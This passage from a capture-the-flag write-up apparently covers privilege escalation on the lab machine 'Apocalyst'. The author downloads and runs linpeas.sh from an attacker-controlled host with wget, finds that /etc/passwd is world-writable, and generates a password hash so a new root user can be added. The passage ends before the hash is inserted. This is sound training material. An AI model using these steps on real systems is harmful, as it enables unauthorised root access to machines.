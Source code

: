 ```

www-data@apocalyst:/dev/shm$ wget 10.10.14.14:8000/linpeas.sh
--2021-02-05 19:56:12--  http://10.10.14.14:8000/linpeas.sh
Connecting to 10.10.14.14:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 320037 (313K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 312.54K  --.-KB/s    in 0.08s   

2021-02-05 19:56:13 (4.03 MB/s) - 'linpeas.sh' saved [320037/320037]

```

I’ll set it executable, and run it:

```

www-data@apocalyst:/dev/shm$ chmod +x linpeas.sh 
www-data@apocalyst:/dev/shm$ ./linpeas.sh
...[snip]...
[+] Hashes inside passwd file? ........... No
[+] Writable passwd file? ................ /etc/passwd is writable
[+] Credentials in fstab/mtab? ........... No
[+] Can I read shadow files? ............. No
[+] Can I read opasswd file? ............. No
[+] Can I write in network-scripts? ...... No
[+] Can I read root folder? .............. No
...[snip]...

```

It won’t come through in this copy paste, but that `/etc/passwd is writable` shows up in yellow background with red text! The script is correct:

```

www-data@apocalyst:/etc$ ls -l passwd
-rw-rw-rw- 1 root root 1637 Jul 26  2017 passwd

```

That’s exploitable.

### Create Root User

I’ll generate a password hash of the format that would show up in a `passwd` file:

```

www-data@apocalyst:/etc$ openssl passwd -1 0xdf    
$1$ZdNgkXMh$IACjDuFtgYshwpcoQhQjB/

```
